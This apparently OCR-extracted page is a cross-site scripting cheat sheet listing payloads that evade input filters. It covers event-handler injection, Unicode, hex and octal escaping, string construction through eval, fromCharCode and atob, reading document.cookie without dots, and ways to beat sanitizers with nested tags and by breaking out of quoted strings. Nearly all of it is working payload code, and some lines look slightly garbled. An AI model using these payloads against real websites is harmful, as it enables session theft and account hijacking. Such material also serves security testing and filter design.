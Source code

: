 **Limit in < >, quoutes, brackets or keywords**
For this we have to try create an event inside the tag we're in!
```
<input type="text" name="búsqueda" value=""
OnFocus="alert('Hola Mundo!');" />
```

- Using Javascript Escaping:
	```html
	##Unicode Escaping
	<script>a\u006cert(1);</script> ##alert(1)
	##Hexadecimal Escaping
	<script>eval('a\x6cert(1)');</script>
	#Octal Escaping
	<script>eval('a\154ert(1)');</script>

	##Escaping characters
	<script>alert('a\l\ert\(1\)');</script>
	<script>eval('a\l\ert\(1\)');</script>
	```
- Dynamically constructing Strings
	```html
	<script>eval('al'+'ert(1)');</script>
	<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41));</script>
	<script>eval(atob('amF2YXNjcmlwdDphbGVydCgxKQ'));</script>
	```
	If _eval_ is not available we can use the next alternatives:
	```html
	<script>'alert(1)'.replace(/.+/,eval)</script>
	<script>function::['alert'](1)</script>
	```
- Alternatives to dots
	```html
	<script>alert(document['cookie'])</script>
	<script>with(document)alert(cookie)</script>
	```
- Using VBScript for IE and combine it with javascript

- Using Encoded scripts
	On Internet Explorer, you can use Microsoft’s custom script-encoding algorithm
to hide the contents of scripts and potentially bypass some input filters:

- Beating Sanitization
	```
	<script><script>alert(1)</script>
		
	<scr<object>ipt>alert(1)</script>

	#If you can control the value foo:
	var a = ‘foo’;
	foo\’; alert(1);//
		var a = ‘foo\\’; alert(1);//’;

	</script><script>alert(1)</script>
	<script>var a = ‘</script><script>alert(1)</script>
	```
